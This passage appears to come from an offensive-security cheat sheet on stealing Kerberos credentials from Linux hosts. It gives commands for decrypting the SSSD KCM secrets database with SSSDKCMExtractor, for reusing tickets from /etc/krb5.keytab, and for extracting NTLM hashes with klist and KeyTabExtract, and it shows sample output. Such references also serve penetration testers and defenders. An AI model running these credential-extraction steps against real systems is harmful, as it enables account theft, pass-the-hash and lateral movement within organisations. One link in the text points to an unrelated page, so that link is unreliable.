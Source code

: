 ### CCACHE ticket reuse from SSSD KCM

SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. By default, the key is only readable if you have **root** permissions.

Invoking \*\*`SSSDKCMExtractor` \*\* with the --database and --key parameters will parse the database and **decrypt the secrets**.

```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```

The **credential cache Kerberos blob can be converted into a usable Kerberos CCache** file that can be passed to Mimikatz/Rubeus.

### CCACHE ticket reuse from keytab

```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
kinit -k -t /etc/krb5.keytab COREWEBDL\$@CORE.CYBER.LOCAL
kvno host/coredc.core.cyber.local@CORE.CYBER.LOCAL
download /tmp/krb5cc_uid

```

### Extract accounts from /etc/krb5.keytab

The service keys used by services that run as root are usually stored in the keytab file **`/etc/krb5.keytab`**. This service key is the equivalent of the service's password, and must be kept secure.

Use [`klist`](https://adoptopenjdk.net/?variant=openjdk13\&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23 is the actual **NT Hash of the user**.

```
klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```

On Linux you can use [`KeyTabExtract`](https://github.com/sosdave/KeyTabExtract): we want RC4 HMAC hash to reuse the NLTM hash.

```bash
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```
